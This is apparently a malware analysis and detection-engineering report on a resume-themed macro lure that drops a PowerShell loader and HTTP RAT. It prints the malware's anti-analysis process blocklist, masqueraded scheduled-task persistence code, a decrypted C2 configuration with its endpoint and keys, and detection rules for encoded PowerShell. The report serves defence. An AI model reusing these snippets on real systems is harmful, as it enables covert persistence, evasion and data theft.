
Figure 10: Implant's Configuration
Stage 5 contains one further piece of code worth calling out here, because at a casual reading it looks like a sixth wrapper but is in fact a network helper. Inside the Invoke-Request function, and again inside the runspace initialiser that backs the implant's parallel uploader, the script defines a Get-Cookie routine that writes a JScript file named aes_<guid>.js into the user's %TEMP% directory and executes it with cscript.exe //nologo. The file is built at request time from two pieces fetched over the network: the slowAES JavaScript library served at /aes.js on the C2 host, and the HTML challenge page served at the C2 root. The implant strips the HTML wrapper and the location.href redirect tail from the page, substitutes WScript.Echo(toHex(slowAES.decrypt(c, 2, a, b))) for the redirect logic so that cscript prints the cookie value to standard output instead of navigating away, concatenates the two pieces into aes_<guid>.js, runs the file through cscript, and captures the resulting 32-character hex string. The string becomes the test cookie that the implant attaches to every subsequent MODE-headered POST, and a finally block removes the temporary file once cscript exits.
The reason this helper exists is that the C2 is hosted on InfinityFree, the free hosting platform behind the 42web[.]io domain, and InfinityFree fronts every customer site with a JavaScript anti-scraping check that requires the browser to solve a slowAES challenge before any further requests are accepted. Without a valid __test cookie, the C2 would reject the implant's POSTs as bot traffic, so the helper is a precondition for every C2 round trip rather than a stage in its own right. It does not appear in the five-layer unwrap above for the same reason: it does not wrap the next layer, it has no encoded body of its own, and its JavaScript content lives on the C2 rather than inside any of the stages on disk.
Before any persistence or network activity, the loader runs Invoke-EnvironmentCheck. The function enumerates 50+ process-name patterns spread across three buckets and aborts if any match.
$vmProcesses =
@('vmwaretray','vboxservice','vboxtray','vmsrvc','vmusrvc','vmxnet')
$debuggerProcesses =
@('x64dbg','x32dbg','ollydbg','windbg','ida','ida64','idaq','idaq64',
'immunitydebugger','dnspy','dnspy-x86','cheatengine',
'cheatengine-x86_64','de4dot','hookexplorer','ilspy','lordpe','petools')
$forensicProcesses =
@('procmon','procmon64','procexp','procexp64','wireshark','tshark',
'dumpcap','windump','fiddler','fiddler everywhere','burpsuite',
'tcpview','tcpview64','autoruns','autorunsc','regmon','filemon',
'processhacker','sysmon','pestudio','dnf','volatility','ftkimager',
'autopsy','resourcehacker','vmmap','vmmap64','portmon','processlasso')
Once the environment check passes, it installs a scheduled task whose action is C:\Windows\System32\conhost.exe with powershell.exe -NoP -exec BYpass -w hIdden -Enc <UTF-16LE base64> as its argument. The trigger is a one-off ten minutes after registration, repeating every four hours.
$action = New-ScheduledTaskAction -Execute
"C:\Windows\System32\conhost.exe" `
-Argument "powershell.exe -NoP -exec BYpass -w hIdden -Enc
<b64>"
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(10)
`
-RepetitionInterval (New-TimeSpan -Hours 4)
$stn = "MicrosoftEdgeUpdateTaskMachine-"
$stp = "Microsoft\Windows\TaskScheduler"
Register-ScheduledTask -TaskName ($stn +
([Security.Principal.WindowsIdentity]::GetCurrent()).User.Value) `
-Action $action -Trigger $trigger -Force
try {
Register-ScheduledTask -TaskPath $stp `
-TaskName ($stn +
([Security.Principal.WindowsIdentity]::GetCurrent()).User.Value) `
-Action $action -Trigger $trigger -Force `
-User "SYSTEM" -RunLevel Highest -ErrorAction Stop
} catch { }
Two design choices here are worth calling out. First, the task name is MicrosoftEdgeUpdateTaskMachine-<user SID>. Legitimate Microsoft Edge update tasks use a {GUID} suffix. Second, the loader registers the task twice: once in the user's own context, and then again under SYSTEM at -RunLevel Highest. The second call is wrapped in a try { ... } catch { } swallow, so on an unprivileged victim it silently fails and only the first registration sticks. On an admin or UAC-bypassed session, both succeed and the task runs as SYSTEM thereafter. That is the only privilege-escalation surface in the chain - there is no exploit, just an opportunistic attempt that costs nothing if it fails.
The third design detail is the choice of conhost.exe as the Execute argument with powershell.exe as its Argument. That trampoline forces conhost.exe to spawn powershell.exe as its child, which complicates simple parent-process detections that key on Office spawning PowerShell directly. The parent of the recurring PowerShell is therefore conhost, not cmd and not winword, and only the initial detonation produces the WINWORD -> cmd -> powershell tree.
The final stage, recovered from default.ps1 after the XOR decrypt and the inner base64 unwrap, is a custom PowerShell HTTP RAT roughly 25 KB in size. I have not seen this loader's exact shape published elsewhere, and I refer to it by its own buildInfo value: baesystem.
The RAT's configuration lives encrypted in the script itself using the same XOR-mixed-key construction as the dropper, with a different key/salt pair and an extra colon-delimited ciphertext field: oUaJx2LlCscrgwR/8xNKWA==:sgdMBamy9tE=:<base64 ciphertext>.
Decrypting it yields a single JSON object.
{
"ServerURL":
"https://updatepowershellservice.42web.io/YE97Bw999zB87t1U8i.php",
"buildInfo": "baesystem",
"UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Edg/141.0.0.0",
"mutexUID": "SysInfoProject_019d3efa-657d-73c5-b3d3-70a9a2ea5c39",
"sleepSecs": 30,
"sleepJitter": 20
}
updatepowershellservice[.]42web[.]io currently resolves to 185.27.134[.]177 (AS34119 Wildcard UK Limited), the IP that serves all of 42web[.]io's free-tier customers.
The C2 transport is HTTPS POSTs of JSON bodies carrying a custom MODE header. Five mode values appear in the source:
| MODE value |
Direction |
Purpose |
| LI |
victim -> C2 |
Initial login / registration of the beacon |
| RP |
victim -> C2 |
Reports task results back to the operator |
| GC |
victim -> C2 |
Polls the operator for queued commands |
| UF |
victim -> C2 |
Uploads a file from the victim (exfiltration) |
| DF |
victim -> C2 |
Pulls a file from the operator (ingress tool transfer) |
The dispatcher Process-TaskCommands switches on a type field returned by the GC poll and supports exactly four task types: cmd (executed via cmd /c $taskCmd), powershell (executed via Invoke-Expression), download (calls Send-LargeFile to exfiltrate a file from victim to operator) and upload (calls Get-LargeFile to push a new file from operator to victim). The task-type names are written from the operator's perspective, which is the inverse of the victim-side MODE names: the download task exfiltrates from victim to operator and is carried by the UF (upload file) mode, while the upload task delivers a file from operator to victim and is carried by the DF (download file) mode.
I recommend the following layered approach to prevention, detection, and hunting:
-
Macro Restrictions: Block macro execution in documents originating from outside the organisation. Verify that Microsoft's Mark-of-the-Web (MotW) macro-blocking GPOs are strictly enforced.
-
PowerShell Constraints: Restrict PowerShell to Constrained Language Mode (CLM) for non-administrative users and verify that AMSI providers remain attached and functional.
-
Malicious Execution Chains: Alert on a WINWORD.EXE ancestor spawning a cmd.exe → powershell.exe chain where the command line contains -NoP, -exec BYpass, -w hIdden, and a base64 argument exceeding three kilobytes in length.
-
Suspicious Scheduled Tasks (Naming): Alert on the creation of scheduled tasks named MicrosoftEdgeUpdateTaskMachine-S-1-5-*. The legitimate Edge updater uses a {GUID} suffix; the presence of a user SID is a high-fidelity anomaly.
-
Suspicious Scheduled Tasks (Execution): Alert on scheduled-task actions where the Execute target is conhost.exe and the Argument starts with powershell.exe. This trampoline technique is highly irregular for native Windows scheduled tasks.
-
Masqueraded File Drops: Alert on the creation of any file under C:\Users\Public\ whose first line matches the regex ^[A-Za-z]+:\s+[A-Za-z0-9+/]{40,}={0,2}$. The Error: <base64> masquerade is distinctive, and benign software does not produce this pattern.
-
Custom HTTP Headers: Hunt and alert on outbound HTTPS POST traffic carrying a MODE request header with the values LI, RP, GC, UF, or DF. This is not a standard HTTP convention and should yield a near-zero noise hunt.
-
C2 Infrastructure: Block egress traffic to updatepowershellservice[.]42web[.]io. Consider blocking the wider *.42web[.]io namespace if business requirements permit.
- Mutex Sweeps: Hunt for the Global\SysInfoProject_* mutex using EDR telemetry (specifically querying for CreateMutex API calls) or by conducting live sweeps across the fleet using tools like handle.exe.
| Indicator |
Type |
Description |
| c8d5bbf80f7715ff0df2081b349365612b547d8b3cdc30193d001ad74384a801 |
SHA-256 |
Lure document EmployeeResumeForm.docm |
| 40167cd7a07fff4beabb22ef5dec32d893f66681 |
SHA-1 |
Lure document |
| 5da39cc59c25ef863bf8607234bdb536 |
MD5 |
Lure document |
| updatepowershellservice[.]42web[.]io |
Domain |
Active C2 host |
hxxps://updatepowershellservice[.]42web[.]io/YE97Bw999zB87t1U8i.php |
URL |
C2 endpoint (JSON over HTTPS, custom MODE header) |
| 185.27.134[.]177 |
IPv4 |
Shared free-hosting node (AS34119 Wildcard UK Limited); high-FP for blocking |
| dxi24-5wj3s-lsk32-j2o3s-aks3e[.]42web[.]io |
Domain |
Lure staging host |
hxxps://dxi24-5wj3s-lsk32-j2o3s-aks3e[.]42web[.]io/EmployeeResumeForm.docm |
URL |
Lure download URL |
hxxps://mailstat[.]us/tr/t2/37c0b71/ijesj11jtfbfuz/1/... |
URL |
Mail-tracking redirector observed in delivery |
| C:\Users\Public\Microsoft\default.ps1 |
File path |
Encrypted PowerShell loader dropped by the macro |
| C:\Users\Public\Microsoft\ |
Directory |
Created on first run by enableCNFV |
| MicrosoftEdgeUpdateTaskMachine-<user SID> |
Task name |
Persistence (two registrations; SYSTEM where elevation succeeds) |
| Microsoft\Windows\TaskScheduler\ |
Task path |
Path used in the SYSTEM/Highest re-registration |
| Global\SysInfoProject_019d3efa-657d-73c5-b3d3-70a9a2ea5c39 |
Mutex |
Singleton guard in the final RAT |
| E8/LNvsiT2w/IyTlSVyqPQ==:aYcZU4lHrxI= |
XOR key:salt |
Decrypts the dropped default.ps1 |
| oUaJx2LlCscrgwR/8xNKWA==:sgdMBamy9tE= |
XOR key:salt |
Decrypts the embedded C2 config (full blob is key:salt:ciphertext) |
| 7a48d2657265e07e56a43db6c01b052f |
Mixed key |
Derived from the dropper key:salt, hex |
| 1341c5c2cb57fc169984487a5aa1bc89 |
Mixed key |
Derived from the C2 config key:salt, hex |
| baesystem |
Build tag |
buildInfo field in the implant's config |
| Mighty Spider |
Author handle |
Creator and Last Modified By in the DOCM metadata |
| MODE: LI |
RP |
GC |
| YE97Bw999zB87t1U8i.php |
URI path |
C2 endpoint filename — high-uniqueness hunt string |
| Tactic |
ID |
Technique |
Procedure |
| Initial Access |
T1566.001 |
Phishing: Spearphishing Attachment |
Resume-themed .docm staged on 42web[.]io and delivered via a mailstat[.]us redirector |
| Execution |
T1204.002 |
User Execution: Malicious File |
Document_Open auto-runs once macros are enabled |
| Execution |
T1059.005 |
Visual Basic |
Module1.default drops the loader and spawns PowerShell |
| Execution |
T1059.001 |
PowerShell |
Five layers of PowerShell wrappers and the final HTTP RAT |
| Execution |
T1059.003 |
Windows Command Shell |
WScript.Shell.Run "cmd.exe /c powershell..." |
| Defense Evasion |
T1027 |
Obfuscated Files or Information |
Multi-layer base64 plus custom XOR |
| Defense Evasion |
T1027.013 |
Encrypted/Encoded File |
Error:-prefix masquerade over base64+XOR ciphertext |
| Defense Evasion |
T1140 |
Deobfuscate/Decode Files or Information |
Stages 1–5 unwrap progressively at runtime |
| Defense Evasion |
T1480 |
Execution Guardrails |
Invoke-EnvironmentCheck aborts if any analysis tool is present |
| Defense Evasion |
T1497.001 |
System Checks |
Process-name fingerprinting against a 50+-name analysis-tool blocklist |
| Defense Evasion |
T1036.005 |
Match Legitimate Name or Location |
Scheduled task masquerades as MicrosoftEdgeUpdateTaskMachine- |
| Persistence |
T1053.005 |
Scheduled Task/Job |
Recurring four-hour task installed post-detonation |
| Discovery |
T1057 |
Process Discovery |
Get-Process enumerated against the analysis-tool analysis-tool blocklist |
| Discovery |
T1082 |
System Information Discovery |
Get-UniqueDeviceId over BIOS, UUID, CPU, board and disk |
| Discovery |
T1016 |
System Network Configuration Discovery |
Get-LocalIPv4 over WMI / Get-NetIPAddress |
| Discovery |
T1016.001 |
Internet Connection Discovery |
Get-WanIP rotates through five public IP-lookup providers |
| Command and Control |
T1071.001 |
Application Layer Protocol: Web Protocols |
HTTPS POSTs to updatepowershellservice[.]42web[.]io |
| Command and Control |
T1573 |
Encrypted Channel |
TLS to the C2 plus XOR-encrypted config at rest |
| Collection |
T1005 |
Data from Local System |
download task type returns arbitrary file paths |
| Exfiltration |
T1041 |
Exfiltration Over C2 Channel |
UF mode posts file contents over the same channel |
To validate the detection logic recommended above, I detonated EmployeeResumeForm.docm on an instrumented sandbox shipping Elastic Defend into Elastic SIEM (with Sysmon present for the first detonation). This section documents what surfaced in Elastic SIEM, and which rules the telemetry would alert on.

Figure 11: Execution Chain Observed in Elastic SIEM
The sample was detonated in two phases. In the first phase the sandbox ran with Sysmon and standard VirtualBox guest tooling present. Under these conditions the malicious document spawned its initial process chain, but the embedded PowerShell terminated early without establishing persistence or contacting external infrastructure. Analysis of the deobfuscated script explained this behaviour. Before taking any action, the loader enumerates running processes and compares them against a hardcoded list of analysis, virtualisation, and forensic tooling, and it exits silently if any match is found. The presence of Sysmon alone was sufficient to trigger this check.
In the second phase the sandbox was re-provisioned with the Sysmon service and VirtualBox helper processes removed, so the sample would proceed past its environment check. This run produced the complete attack chain, including scheduled task persistence, a second execution stage, and command and control traffic. Elastic Defend retained full process, file, network, and registry visibility throughout both phases because its sensor does not run under any of the process names the sample screens for. The alerts and detection gaps described below are drawn from this second, fully executed run unless stated otherwise.
Across the fully executed run, Elastic Defend generated alerts from ten distinct detection rules. These fired at each major stage of the attack, from the initial document execution through to the command-and-control (C2) beacon. The table below consolidates them, grouped by the stage of the chain they covered.
| Stage |
Rule |
Severity |
Coverage |
| Initial execution |
Suspicious MS Office Child Process |
Medium |
Word spawning cmd.exe |
| Initial execution |
Suspicious Windows Powershell Arguments |
Medium |
Hidden, encoded, execution-bypass PowerShell |
| Discovery |
Deprecated - PowerShell Script with Discovery Capabilities |
Low |
Script reconnaissance behavior |
| Persistence |
A scheduled task was created |
Low |
Scheduled task registration |
| Stage 3 execution |
Unusual Parent-Child Relationship |
Medium |
conhost.exe spawning powershell.exe |
| Discovery |
External IP Lookup from Non-Browser Process |
Low |
api.ipify.org request |
| Discovery |
System Public IP Discovery via DNS Query |
High |
api.ipify.org request |
| Command and control |
Remote File Download via PowerShell |
Medium |
C2 lookup and script drop |
| Discovery |
Deprecated - Unusual Discovery Activity by User |
Low |
Anomalous discovery activity |
| Discovery |
Unusual Discovery Signal Alert with Unusual Process Executable |
Low |
Anomalous discovery activity |
The most important observation from this set is that detection coverage was broad but shallow, and the severities were inverted relative to the actual risk. The single High severity alert fired on the public IP lookup, which is a comparatively low-impact reconnaissance step.
The genuinely significant behaviours, namely the scheduled task persistence and the command-and-control activity, surfaced only as Low and Medium alerts. The alerts also arrived as isolated, single-event detections with no correlation between them, so an analyst would have seen a scatter of unrelated low-confidence signals rather than one coherent high-confidence incident. This fragmentation, combined with the inverted severity, is the central weakness this exercise exposed, and it directly motivates the new and tuned detections proposed in the next subsection.
While the existing rule set produced alerts at most stages of the chain, several of the most security-relevant behaviours generated no alert at all. These gaps matter because they represent the techniques an analyst would most want flagged, and because they are the steps least likely to be benign in a production environment. The following behaviours were observed in the telemetry but did not trigger any detection rule.
The first gap is the use of cscript.exe to execute a JScript file from a user-writable temporary directory. On every C2 round trip the implant's Get-Cookie helper wrote a JScript file (aes_<guid>.js) into the user's %TEMP% directory and executed it through the Windows Script Host (cscript.exe //nologo), which breaks the PowerShell process lineage and continues execution under a different interpreter. No rule covered a script interpreter launching a script from a temporary or public path, despite this being a reliable indicator of staged execution.
The second gap is the use of conhost.exe as a proxy launcher. The scheduled task action invoked conhost.exe with powershell.exe and an encoded command as its arguments, using the console host as an intermediary to launch the payload. While an unusual parent-child rule did fire on the resulting relationship, no rule specifically identified conhost.exe being supplied another executable as an argument, which is an anomalous and high-confidence signal.
The third gap is the scheduled task masquerade. Persistence was registered under a task named to impersonate a legitimate Microsoft Edge update task, while its action pointed to an encoded PowerShell command rather than the genuine updater binary. The generic scheduled task creation rule did fire, but only at Low severity and without regard to the deceptive naming or the mismatch between the task name and its action. A detection that keys on this name and action mismatch would be both higher fidelity and higher severity.
The fourth gap is the malicious document writing a script to disk. The macro dropped a PowerShell script into a world-readable location under the Public user profile before execution began. No rule flagged an Office application writing a script or executable file type, even though Office processes have no legitimate reason to author such files in normal use.
The fifth gap is the sandbox and security tooling discovery performed by the loader. Before proceeding, the script enumerated running processes and compared them against an extensive list of virtualisation, debugging, and forensic tools. This is the behaviour that suppressed the first detonation entirely, and it is among the most distinctive signatures of this sample, yet nothing detected it. Capturing this reliably depends on PowerShell script block logging, which is addressed as a visibility gap below.
The sixth gap is the command-and-control (C2) beacon to free hosting infrastructure. The second stage resolved and connected to a domain on a free web hosting provider, and the repeated connections to the same destination indicated beaconing behaviour. The existing remote file download rule fired on the associated activity, but there was no detection keyed on a script interpreter contacting free or anomalous hosting infrastructure, and no analytic identifying the periodic beacon pattern itself.
Underlying several of these gaps is a visibility limitation rather than a missing rule. Elastic Defend observed only the outer command lines of the PowerShell stages, so the decrypted script bodies, the environment check logic, and the decryption routine were never available to the detection engine. Enabling PowerShell script block logging and ingesting it into Elastic SIEM is the single highest-value improvement available here, because it would expose the deobfuscated script content that rules five and the reflection-based loader behaviour depend on. This should be treated as a prerequisite for the script-content detections rather than an optional enhancement.
Taken together, these gaps share a common theme. The existing rules detect well-known atomic techniques such as Office spawning a shell or PowerShell using encoded arguments, but they do not cover the evasion, masquerade, and staging behaviours that distinguish this sample from commodity activity. The recommended rules below are designed to close those gaps, and to favour the behaviours that are both high fidelity and difficult for the actor to alter without changing their tradecraft.

Figure 12: Elastic SIEM Validation of Rule 1
{
"name": "Script Interpreter Executing Script from Temporary or Public
Path",
"description": "Detects Windows Script Host (cscript.exe/wscript.exe)
or PowerShell executing a script from a user-writable staging directory
such as AppData\\Local\\Temp or C:\\Users\\Public, when spawned by
another script interpreter. This pattern is associated with staged
loaders that decrypt a payload to disk and continue execution under a
secondary interpreter to break process lineage.",
"type": "eql",
"language": "eql",
"index": ["logs-endpoint.events.process-*"],
"query": "process where event.type == "start" and process.name in
("cscript.exe", "wscript.exe", "powershell.exe", "pwsh.exe") and
process.parent.name in ("powershell.exe", "pwsh.exe",
"conhost.exe", "cmd.exe", "wscript.exe", "cscript.exe") and
process.args : ("?:\\\\Users\\\*\\\\AppData\\\\Local\\\\Temp\\\*",
"?:\\\\Users\\\\Public\\\*", "?:\\\\Windows\\\\Temp\\\*")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0002", "name": "Execution", "reference":
"https://attack.mitre.org/tactics/TA0002/" },
"technique": [
{ "id": "T1059", "name": "Command and Scripting Interpreter",
"reference": "https://attack.mitre.org/techniques/T1059/",
"subtechnique": [
{ "id": "T1059.007", "name": "JavaScript", "reference":
"https://attack.mitre.org/techniques/T1059/007/" },
{ "id": "T1059.001", "name": "PowerShell", "reference":
"https://attack.mitre.org/techniques/T1059/001/" }
]
}
]
}
],
"false_positives": [
"Software installers and IT automation scripts that legitimately
stage and run scripts from Temp. Tune by allowlisting known
administrative tooling or signed parent processes."
]
}
Validation query (Figure 12):
event.type : "start" and process.name : ("cscript.exe" or "wscript.exe") and process.parent.name : ("powershell.exe" or "pwsh.exe" or "conhost.exe") and process.args : (*Temp* or *Public*)

Figure 13: Elastic SIEM Validation of Rule 2
{
"name": "Console Host (conhost.exe) Used as Proxy Launcher",
"description": "Detects conhost.exe being supplied a secondary
interpreter (powershell.exe, cmd.exe, wscript.exe, cscript.exe,
mshta.exe, rundll32.exe) as a command-line argument. The console host
normally receives only console-attachment flags such as 0xffffffff
-ForceV1, so the presence of another executable in its arguments
indicates it is being abused as an intermediary launcher to obscure
process lineage.",
"type": "eql",
"language": "eql",
"index": ["logs-endpoint.events.process-*"],
"query": "process where event.type == "start" and process.name ==
"conhost.exe" and process.args : ("powershell*", "pwsh*",
"cmd*", "wscript*", "cscript*", "mshta*", "rundll32*",
"*-enc*", "*-EncodedCommand*")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0005", "name": "Defense Evasion", "reference":
"https://attack.mitre.org/tactics/TA0005/" },
"technique": [
{ "id": "T1218", "name": "System Binary Proxy Execution",
"reference": "https://attack.mitre.org/techniques/T1218/" },
{ "id": "T1036", "name": "Masquerading", "reference":
"https://attack.mitre.org/techniques/T1036/" }
]
}
],
"false_positives": [
"Extremely rare in normal operation. Investigate any match. No common
benign source is expected for conhost.exe receiving an interpreter as an
argument."
]
}
Validation query (Figure 13):
event.type : "start" and process.name : "conhost.exe" and process.args : *powershell*
This covers Gap 3. The generic "scheduled task created" rule fired only at Low and ignored the deception. This one keys on the name-and-action mismatch: a task impersonating the Edge updater whose action is an encoded interpreter rather than the genuine MicrosoftEdgeUpdate.exe. Because Register-ScheduledTask writes through the Schedule service rather than spawning schtasks.exe, the highest-fidelity catch is at task execution time, when the Schedule service spawns conhost/powershell carrying an encoded command.

Figure 14: Elastic SIEM Validation of Rule 3
{
"rule_id": "a1f4c2e7-3b9d-4e21-9c6a-7d2f0b5e8a13",
"name": "Masqueraded Update Scheduled Task Executing Encoded
PowerShell",
"description": "Detects the Windows Task Scheduler service launching
an encoded or hidden PowerShell command by way of conhost.exe. Loaders
frequently register persistence under task names that impersonate
legitimate software updaters, such as Microsoft Edge Update, while the
task action points to an encoded PowerShell payload rather than the
genuine updater binary. This rule identifies the execution of such a
task by the mismatch between the trusted Schedule service parent and the
encoded interpreter it launches.",
"type": "eql",
"language": "eql",
"index": ["logs-endpoint.events.process-*"],
"query": "process where event.type == "start" and
process.parent.name == "svchost.exe" and process.name in
("conhost.exe", "powershell.exe", "pwsh.exe") and process.args :
("*powershell*", "*-enc*", "*-EncodedCommand*", "*-w*hidden*",
"*bypass*")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"author": ["V0lundr"],
"license": "Internal",
"version": 1,
"tags": ["CTI", "Persistence", "Scheduled Task", "Masquerading",
"Tactic: Persistence", "Data Source: Elastic Defend"],
"references": [
"https://attack.mitre.org/techniques/T1053/005/",
"https://attack.mitre.org/techniques/T1036/004/"
],
"threat": [
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0003", "name": "Persistence", "reference":
"https://attack.mitre.org/tactics/TA0003/" },
"technique": [
{ "id": "T1053", "name": "Scheduled Task/Job", "reference":
"https://attack.mitre.org/techniques/T1053/",
"subtechnique": [
{ "id": "T1053.005", "name": "Scheduled Task", "reference":
"https://attack.mitre.org/techniques/T1053/005/" }
]
}
]
},
{
"framework": "MITRE ATT&CK",
"tactic": { "id": "TA0005", "name": "Defense Evasion", "reference":
"https://attack.mitre.org/tactics/TA0005/" },
"technique": [
{ "id": "T1036", "name": "Masquerading", "reference":
"https://attack.mitre.org/techniques/T1036/",
"subtechnique": [
{ "id": "T1036.004", "name": "Masquerade Task or Service",
"reference": "https://attack.mitre.org/techniques/T1036/004/" }
]
}
]
}
],
"false_positives": [
"Legitimate scheduled tasks rarely launch encoded PowerShell via the
Schedule service. Some management and patching tools may do so. Tune by
allowlisting known task names or signed script paths."
]
}
Validation query (Figure 14):
event.type : "start" and process.parent.name : "svchost.exe" and process.name : "conhost.exe" and process.args : *powershell*
This rule covers Gap 4, the macro dropping default.ps1 into C:\Users\Public\Microsoft. Office applications have no legitimate reason to author script or executable file types, so this is a high-fidelity behavioral rule against the file event stream.

Figure 15: Elastic SIEM Validation of Rule 4
{
"rule_id": " b7e2d934-8c1a-4f56-a0e3-9f1c4d6b2e88",
"name": "Microsoft Office Application Writing Script or Executable
File",
"description": "Detects a Microsoft Office application (Word, Excel,
PowerPoint, Outlook) creating a script or executable file on disk.
Office processes have no legitimate reason to author these file types
during normal document use. This behavior is characteristic of a
malicious macro dropping a loader or payload to disk prior to execution,
including drops to world-readable locations such as the Public user
profile.",
"type": "eql",
"language": "eql",
"index": ["logs-endpoint.events.file-*"],
"query": "file where event.type in ("creation", "change") and
process.name in ("WINWORD.EXE", "EXCEL.EXE", "POWERPNT.EXE",
"OUTLOOK.EXE", "MSACCESS.EXE") and file.extension in~ ("ps1",
"js", "jse", "vbs", "vbe", "wsf", "wsh", "hta", "bat",
"cmd", "scr", "exe", "dll", "com", "pif")",
"severity": "high",
"risk_score": 73,
"from": "now-9m",
"interval": "5m",
"author": ["V0lundr"],
"license": "Internal",
"version": 1,
"tags": ["CTI", "Initial Access", "Execution", "Phishing",
"Tactic: Execution", "Data Source: Elastic Defend"],
"references": [
"https://attack.mitre.org/techniques/T1566/001/",
